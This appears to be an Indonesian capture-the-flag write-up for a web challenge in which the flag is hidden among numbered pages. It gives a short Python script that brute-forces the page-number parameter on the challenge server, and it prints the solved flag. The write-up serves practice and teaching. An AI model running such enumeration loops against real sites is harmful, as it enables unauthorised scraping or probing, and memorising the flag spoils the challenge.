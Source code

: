 <h1><b>Perpustakaan</b></h1>
<pre>
Didalam perpustakaan udah pasti banyak buku kan ? Nah kalo di Perpustakaan CTFR banyak page. Coba carikan dari sekian banyak pagenya itu Flag. Karena mimin lupa naruh dimana :(

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal10/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Lakukan bruteforce request ke setiap no halaman</p>

```python3
import requests

for i in range(5210,10000):
    req = requests.get('https://web.ctf.rasyidmf.com/chal10/?no='+str(i)).text
    flag = req.split('<br><br>\n')[-1].split('</body>')
    if "CTFR" in flag[0]:
        print("Page "+str(i)+" "+flag[0].replace(' ',''))
```
<p>Output</o>
<pre>
Page 5212 CTFR{ju5t_brut3f0rc3_th3_p4g3_15_34sy}
</pre>
<h3><b>Flag</b></h3>
<pre>
CTFR{ju5t_brut3f0rc3_th3_p4g3_15_34sy}
</pre>
